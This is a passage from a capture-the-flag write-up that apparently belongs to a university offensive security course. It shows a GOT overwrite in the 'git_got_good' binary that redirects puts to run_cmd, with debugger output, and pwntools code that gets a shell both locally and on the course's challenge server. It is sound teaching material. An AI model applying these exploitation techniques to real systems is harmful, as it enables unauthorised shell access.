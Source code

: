 We can see the address of `run_cmd` stored there, yay!

For comparison, this is what it looks like if I had just entered "hello"
```
Breakpoint 1, 0x000000000040080e in main ()
 →   0x40080e <main+163>       call   0x4005b0 <puts@plt>
   ↳    0x4005b0 <puts@plt+0>     jmp    QWORD PTR [rip+0x200a62]    # 0x601018 <puts@got.plt>
gef➤  x/2x 0x601018
0x601018 <puts@got.plt>:        0xf7e40b00      0x00007fff
```

YAY I WIN!
```
gef➤  $ c
Continuing.
[Detaching after vfork from child process 440715]
$ whoami
kali
$ pwd
/home/kali/Desktop/5-Week
$  zsh: suspended (signal)  python3 GitGOTGood_Pwn.py
```

Discuss, why does this work even with the stack canary?

### Exploitation
### Local:
###### Code:
```python
def localShell():
	p = process("./git_got_good")
	p.recvuntil("save:")
	p.sendline(pld())
	p.interactive()
```
###### Results:
```
└─$ python3 GitGOTGood_Pwn.py
[+] Starting local process './git_got_good': pid 443187
[*] Switching to interactive mode
 Ok, I'm writing /bin/sh to my buffer...
$ whoami
kali
$ pwd
/home/kali/Desktop/5-Week
```
### Remote:
###### Code:
```python
def remoteShell():
	p = remote(HOST, PORT)
	p.recvuntil("save:")
	p.sendline(pld())
	p.interactive()
```
###### Results:
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 GitGOTGood_Pwn.py
[+] Opening connection to offsec-chalbroker.osiris.cyber.nyu.edu on port 1341: Done
[*] Switching to interactive mode
 Ok, I'm writing /bin/sh to my buffer...
$ whoami
pwn
$ ls
```